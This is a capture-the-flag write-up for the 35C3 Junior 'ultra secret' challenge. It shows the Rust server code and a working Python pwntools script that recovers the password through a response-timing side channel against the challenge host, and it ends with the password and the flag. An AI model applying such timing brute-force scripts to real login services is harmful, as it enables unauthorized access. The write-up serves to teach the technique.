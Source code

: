# 35C3 Junior CTF – ultra secret

* **Category:** Misc
* **Points:** variable

## Challenge

> This flag is protected by a password stored in a highly sohpisticated chain of hashes. Can you capture it nevertheless? We are certain the password consists of lowercase alphanumerical characters only.
>
> nc 35.207.158.95 1337
>
> Difficulty estimate: Easy

## Solution

You will have the server source code written in *Rust*.

```Rust
extern crate crypto;

use std::io;
use std::io::BufRead;
use std::process::exit;
use std::io::BufReader;
use std::io::Read;
use std::fs::File;
use std::path::Path;
use std::env;

use crypto::digest::Digest;
use crypto::sha2::Sha256;

fn main() {
    let mut password = String::new();
    let mut flag = String::new();
    let mut i = 0;
    let stdin = io::stdin();
    let hashes: Vec<String> = BufReader::new(File::open(Path::new("hashes.txt")).unwrap()).lines().map(|x| x.unwrap()).collect();
    BufReader::new(File::open(Path::new("flag.txt")).unwrap()).read_to_string(&mut flag).unwrap();

    println!("Please enter the very secret password:");
    stdin.lock().read_line(&mut password).unwrap();
    let password = &password[0..32];
    for c in password.chars() {
        let hash =  hash(c);
        if hash != hashes[i] {
            exit(1);
        }
        i += 1;
    }
    println!("{}", &flag)
}

fn hash(c: char) -> String {
    let mut hash = String::new();
    hash.push(c);
    for _ in 0..9999 {
        let mut sha = Sha256::new();
        sha.input_str(&hash);
        hash = sha.result_str();
    }
    hash
}
```

The server asks for a password and calculates 9999 chained hashes, with SHA-256, for each passed char. The result for each char is compared with a stored one into a text file. If all chars are correct, then the flag is printed from a text file. If a char is wrong the script terminates itself.

There is nothing wrong into the script and the only way to print the flag is to discover the password.

The time to compute several hashes can be high. If a submitted char is correct, the time to receive the answer will be greater of the time to receive the answer for a wrong char, because the hash calculation for the next char will be executed. Hence a timing attack can be used to guess all the chars.

A Python script can be developed to automatize the operation.

```Python
from pwn import *

# 10e004c2e186b4d280fad7f36e779ed4

chars = list("1234567890qwertyuiopasdfghjklzxcvbnm")
password = list(" "*32)
possible_flag = None

for p in range(len(password)):
   print "[*] Char {}.".format(p)

   if password[p] != " ":
      print "[*] Already set, going on..."
      continue

   best_char = " "
   best_response_time = 0.0

   for c in range(len(chars)):
      password[p] = chars[c]
      password_string = "".join(password)
      print "[*] Testing password '{}'.".format(password_string)
      r = remote("35.207.158.95", 1337)
      print r.recvline()
      r.sendline(password_string)
      start = time.time()
      received_response = r.recvall()
      end = time.time()
      print received_response
      r.close()

      if received_response is not None and "35c3" in received_response.lower():
         possible_flag = received_response

      response_time = end - start
      print "[*] Response time is '{}'.".format(response_time)
      if response_time > best_response_time:
         best_response_time = response_time
         best_char = chars[c]

   password[p] = best_char

password_string = "".join(password)
print "    ===================================================="
print "[*] The password is '{}'.".format(password_string)
print "    ===================================================="

if possible_flag is not None:
   print "[*] A possible flag is '{}'.".format(possible_flag)
   print "    ===================================================="

print "[*] Testing password '{}'.".format(password_string)
r = remote("35.207.158.95", 1337)
print r.recvline()
r.sendline(password_string)
print r.recvall()
```

The password is: `10e004c2e186b4d280fad7f36e779ed4`.

The flag is the following.

```
35C3_timing_attacks_are_fun!_:)
```